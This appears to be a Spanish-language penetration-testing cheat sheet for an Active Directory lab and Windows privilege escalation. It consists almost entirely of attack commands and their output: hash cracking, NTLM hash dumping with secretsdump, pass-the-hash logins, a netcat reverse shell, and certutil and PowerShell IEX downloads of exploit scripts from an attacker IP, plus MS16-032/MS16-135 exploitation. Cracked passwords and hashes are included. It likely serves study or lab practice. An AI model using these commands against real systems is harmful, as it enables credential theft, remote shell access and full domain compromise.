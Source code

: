 hashcat -m 18200 hash passwordlist.txt
password: management2005

<br>
**\- Identificacion de recursos compartidos**
smbclient -L //SPOOKYSEC.LOCAL -U svc-admin
**\- Conectar a un recurso compartido**
smbclient //SPOOKYSEC.LOCAL/backup -U svc-admin
password identificado en txr : backup@spookysec.local:backup2517860
**\- Volcado de usuarios**
secretsdump.py pookysec.local/backup:backup2517860@10.10.15.51
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied
[\*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[\*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::

**\- Conexion por evil\-winrm**
evil-winrm -i 10.10.15.51 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents> dir
**\- Conexion reversa**
/usr/share/windows-binaries/nc.exe
certutil.exe -urlcache -split -f "http://192.168.119.168/nc.exe" accesschk64.exe <- descargar archivos desde windows cmd
nc -nlvp 8888
nc.exe ip puerto -e cmd.exe

**\- Buscar vulnerabilidades**
powershell "iex(new-object net.webclient).downloadString('http://192.168.119.168/sherlock.ps1');Find-AllVulns"
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" Set-ExecutionPolicy -ExecutionPolicy bypass -Scope CurrentUser

**\- MS16\-032**
certutil.exe -urlcache -split -f "http://192.168.119.168/accesschk64.exe" accesschk64.exe
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" Import-module -Name "C:\\Users\\Bethany\\AppData\\Local\\Temp\\MS16-032.ps1" "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" "C:\\Users\\Bethany\\AppData\\Local\\Temp\\MS16-032.ps1"
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" IEX(New-Object Net.Webclient).downloadString('http://192.168.119.168/MS16-032.ps1')

**\- MS16\-0135**
certutil.exe -urlcache -split -f "http://192.168.119.168/accesschk64.exe" accesschk64.exe
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" Import-module -Name "C:\\Users\\Bethany\\AppData\\Local\\Temp\\MS16-135.ps1"
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe" "C:\\Users\\Bethany\\AppData\\Local\\Temp\\MS16-135.ps1"

<br>
**\- Psexec**
impacket-psexec "svcorp/pete:ThisIsTheUsersPassword19"@10.11.1.21
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb "./Administrator"@10.11.1.2
